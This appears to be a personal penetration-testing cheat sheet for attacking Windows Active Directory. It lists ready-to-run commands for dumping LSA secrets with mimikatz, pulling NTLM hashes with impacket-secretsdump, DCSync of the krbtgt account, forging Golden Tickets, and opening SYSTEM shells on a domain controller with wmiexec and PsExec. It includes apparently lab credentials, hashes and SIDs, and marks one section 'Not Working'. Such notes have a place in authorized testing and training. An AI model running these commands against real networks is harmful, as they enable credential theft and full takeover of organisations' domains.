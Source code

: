 	- Dump Domain Cache secrets (LSA): 
		- `lsadump::lsa`
		- `lsadump::lsa /inject /name:administrator`
	- Tons of commands to be used: https://gitlab.com/kalilinux/packages/mimikatz/-/tree/d72fc2cca1df23f60f81bc141095f65a131fd099

# Golden Ticket

## Grab NT Hashes 

`impacket-secretsdump -just-dc-ntlm xyz.com/jhudson:angel1@172.140.0.40`

## Get Domain SID

`crackmapexec ldap dc01.xyz.com -u jhudson -p angel1 --get-sid`

------------------------- Not Working -------------------------

## Craft Ticket and run

```sh
impacket-ticketer -nthash d5e3a0740ad179723a0e3ba300e637fe -domain-sid S-1-5-21-564955801-1803512963-3712075166 -domain xyz.com Administrator

export KRB5CCNAME=~/Desktop/Administrator.ccache

impacket-wmiexec xyz.com/Administrator@dc01.xyz.com -k -no-pass -debug
impacket-smbclient xyz.com/Administrator@dc01.xyz.com -k -no-pass -debug
```

------------------------- Not Working -------------------------

### DCSync

Use mimikatz with replication account to perform DCSync attack and get NTLM hashes.

`lsadump::dcsync /domain:xyz.com /user:krbtgt`

### Cont. Golden Ticket (Should be run within a Workstation)

```
kerberos::golden /domain:xyz.com /sid:S-1-5-21-2000547303-2172798533-1239318658 /user:Administrator /krbtgt:a4b2dbb473eef2b77dd1dec119cc5cd9 /id:500 /ptt

misc::cmd

dir \\dc01\c$
```

- Download PsExec

`.\PsExec64.exe -accepteula \\dc01 -s cmd`
